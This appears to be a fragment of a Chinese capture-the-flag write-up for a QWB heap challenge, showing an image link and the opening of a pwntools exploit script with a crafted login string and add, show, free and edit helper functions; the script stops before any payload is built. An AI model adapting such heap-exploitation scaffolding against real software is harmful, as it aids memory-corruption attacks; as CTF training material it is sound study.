 [![](assets/1699929779-24595f61cdc78618598e2a759d28e9ed.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231110001511-28b1c74c-7f1b-1.png)

完整 exp：

```plain
from pwn import *
ex = "./pwn"
#context.log_level='debug'
p = process(ex)
elf = ELF(ex)

libc = elf.libc


p.send("LOGIN | r00t QWB QWXFadmin")
#gdb.attach(p,"b *$rebase(0x1DF3)")
#pause()
def dbg():
    gdb.attach(p)
    pause()

def cat(choice):
    p.sendafter("mew mew mew~~~~~~\n","CAT | r00t QWB QWXF$\xff\xff\xff\xff")
    p.sendlineafter("plz input your cat choice:\n",str(choice))

def add(idx,size,content):
    cat(1)
    p.sendlineafter(":",str(idx))
    p.sendlineafter(":",str(size))
    p.sendafter(":",content)


def show(idx):
    cat(3)
    p.sendlineafter(":",str(idx))

def free(idx):
    cat(2)
    p.sendlineafter(":",str(idx))



def edit(idx,content):
    cat(4)
```